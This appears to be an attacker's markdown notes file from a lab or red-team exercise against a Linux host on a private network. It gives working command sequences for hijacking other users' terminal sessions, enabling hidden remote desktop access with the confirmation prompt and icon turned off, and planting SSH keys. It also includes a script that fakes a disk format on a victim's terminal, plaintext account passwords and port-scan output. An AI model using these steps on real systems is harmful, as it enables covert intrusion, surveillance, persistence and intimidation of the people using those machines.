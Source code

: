 https://askubuntu.com/questions/47642/how-to-start-a-gui-software-on-a-remote-linux-pc-via-ssh

ssh jackbauer@192.168.199.128 -X # enables X11 forwarding

https://unix.stackexchange.com/questions/10121/open-a-window-on-a-remote-x-display-why-cannot-open-display

Might be able to start a screen session on the remote machine and then attach to start a screen display?


# Shell hijacking:
1. Login by typing `ssh -t username@hostname /bin/sh` (using bash triggers the new screen session so use a different shell)
2. Make their shells start as screen sessions: `echo 'screen -D -R -S multi' >> ~/.bashrc`
3. Figure out your tty: `tty`
4. Find their current shell: `ps auxww | grep bash`
5. Kill the shell that isn't your current tty: `kill -9 14325`
6. To hijack their terminal: `screen -x multi`
7. To exit the terminal without closing their session, press <kbd>CTRL</kbd>+<kbd>A</kbd>+<kbd>D</kbd>

# Set up RDP:
1. `ssh surnow@192.168.199.128 -Y`
2. `vino-preferences`
    * Enable "Allow other users to view your desktop"
    * Disable "You must confirm each access to this machine"
    * Enable "Configure network automatically to accept connections"
    * Enable "Never display an icon"
3. Type `remmina` on the attacker machine (not in the ssh'd terminal)
4. Type in the server, username, password, and go to the "SSH Tunnel" tab and enable it

# Make them think their drive is being deleted:
```
#!/bin/bash
{
    for ((i = 0 ; i <= 99 ; i+=1)); do
        sleep 0.1
        echo $i
    done
    sleep 3
	for ((i = 99 ; i >= 0 ; i-=1)); do
        sleep 0.1
        echo $i
    done
} | whiptail --gauge "Formatting /dev/sda1..." 6 50 0
```

then type `./test.sh > /dev/pts/0` to send it to their terminal window


Generate SSH keys:
`ssh-keygen`

Copy SSH key to target machine:
`ssh-copy-id -i ~/.ssh/id_rsa surnow@192.168.199.128`


Check what group a user belongs to:
`id -Gn`

# User information:
User: jackbauer<br>
Password: devgru6<br>
Groups: jackbauer<br>

User: chloe<br>
Password: chloechloe<br>
Groups: chloe adm dialout fax cdrom floppy tape dip video plugdev fuse<br>

User: surnow<br>
Password: surnowsurnow<br>
Groups: surnow adm dialout fax cdrom floppy tape dip video plugdev fuse admin<br>
** Note: this is the only user with sudo privileges<br>


# Services running and their versions:
PORT      STATE SERVICE       VERSION<br>
22/tcp    open  ssh           OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)<br>
80/tcp    open  http          Apache httpd 2.2.17 ((Ubuntu))<br>
8080/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1<br>


TODO: figure out how to escalate privileges once logged into jackbauer since that account doesn't belong to the sudo group
